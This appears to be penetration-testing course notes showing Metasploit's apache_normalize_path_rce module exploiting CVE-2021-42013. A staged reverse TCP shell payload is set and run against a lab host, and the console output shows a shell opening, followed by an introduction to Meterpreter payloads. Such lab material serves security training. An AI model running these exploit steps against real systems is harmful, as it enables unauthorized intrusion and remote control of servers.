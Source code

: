 Let's use the staged payload for this exploit module and launch it 
+ We should note that Metasploit will reuse the values for the options from the previous payload
```
msf6 exploit(multi/http/apache_normalize_path_rce) > set payload 15
payload => linux/x64/shell/reverse_tcp

msf6 exploit(multi/http/apache_normalize_path_rce) > run

[*] Started reverse TCP handler on 192.168.119.4:4444 
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://192.168.50.16:80 - The target is vulnerable to CVE-2021-42013 (mod_cgi is enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://192.168.50.16:80 - Attempt to exploit for CVE-2021-42013
[*] http://192.168.50.16:80 - Sending linux/x64/shell/reverse_tcp command payload
[*] Sending stage (38 bytes) to 192.168.50.16
[!] Tried to delete /tmp/EqDPZD, unknown result
[*] Command shell session 3 opened (192.168.119.4:4444 -> 192.168.50.16:35536) at 2022-08-08 05:18:36 -0400

id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```
+ Above shows that we successfully obtained a reverse shell by using the staged payload
+ The output states that the sent stage was only 38 bytes in size, making it a great choice when we attempt to exploit a vulnerability with space constraints

Obtaining a reverse shell with a staged payload concludes this section
+ We discussed the differences of staged and non-staged payloads and used a staged payload to launch an exploit module

In the examples so far, there have been only minor differences between staged and non-staged payloads since Metasploit did the heavy lifting for us in the background
+ In both situations, we were provided with a session on the target machine

### Meterpreter Payload
In the previous sections, we used a common TCP reverse shell
+ While we do have interactive access on a target system with this type of payload, we only have the functionality of a regular command shell
+ Exploit frameworks often contain more advanced payloads providing features and functionality such as file transfers, pivoting, and various other methods of interacting with the victim machine

Metasploit contains the _Meterpreter_ payload, which is a multi-function payload that can be dynamically extended at run-time
+ The payload resides entirely in memory on the target and its communication is encrypted by default
+ Meterpreter offers capabilities that are especially useful in the post-exploitation phase and exists for various operating systems such as Windows, Linux, macOS, Android, and more

Let's display all compatible payloads in the exploit module from the previous sections again and search for Meterpreter payloads
+ Once we find a non-staged 64-bit Meterpreter TCP reverse shell payload, we'll activate it and display its options:
```
msf6 exploit(multi/http/apache_normalize_path_rce) > show payloads

Compatible Payloads
===================

   #   Name                                              Disclosure Date  Rank    Check  Description
   -   ----                                              ---------------  ----    -----  -----------
   ...
   7   payload/linux/x64/meterpreter/bind_tcp                             normal  No     Linux Mettle x64, Bind TCP Stager
```